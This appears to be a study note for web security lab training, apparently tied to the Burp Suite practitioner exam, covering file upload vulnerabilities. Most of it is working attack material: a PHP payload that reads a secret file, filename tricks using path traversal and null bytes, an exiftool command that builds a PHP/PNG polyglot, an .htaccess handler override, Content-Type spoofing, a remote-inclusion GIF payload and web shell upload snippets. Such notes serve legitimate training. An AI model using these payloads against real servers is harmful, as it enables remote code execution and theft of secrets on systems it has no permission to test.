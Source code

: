 _____

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

> File upload vulnerabilities bypass techniques:

1. Upload the file name and include obfuscated path traversal `..%2fexploit.php` and retrieve the content `GET /files/avatars/..%2fexploit.php`.
2. Upload a file named, `exploit.php%00.jpg` with trailing null byte character and get the file execution at `/files/avatars/exploit.php`.
3. Create **polygot** using valid image file, by running the command in bash terminal: `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" ./stickman.png -o polyglot2023.php`. Once polygot is uploaded, view the extracted data by issuing a GET request to the uploaded path `/files/avatars/polyglot.php` , and search the response content for the phrase `START` to obtain the sensitive data.
4. Upload two different files. First upload `.htaccess` with Content-Type: `text/plain`, and the file data value set to `AddType application/x-httpd-php .l33t`. This will allow the upload and execute of second file upload named, `exploit.l33t` with extension `l33t`.
5. MIME type `image/jpeg` or `image/png` is only allowed. Bypass the filter by specifying `Content-Type` to value of `image/jpeg` and then uploading `exploit.php` file.
6. If target allow [Remote File Include](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#remote-file-inclusion) (RFI), upload from remote URL, then host and exploit file with the following GIF magic bytes: `GIF89a; <?php echo file_get_contents('/home/carlos/secret'); ?>`. The file name on exploit server could read `image.php%00.gif`.
7. Double file extension bypass filter `exploit.csv.php`.

# Web shell upload via Content-Type restriction bypass

Content-Type: image/jpeg

# Web shell upload via path traversal

filename="..%2fshell.php"

GET /files/avatars/../shell.php



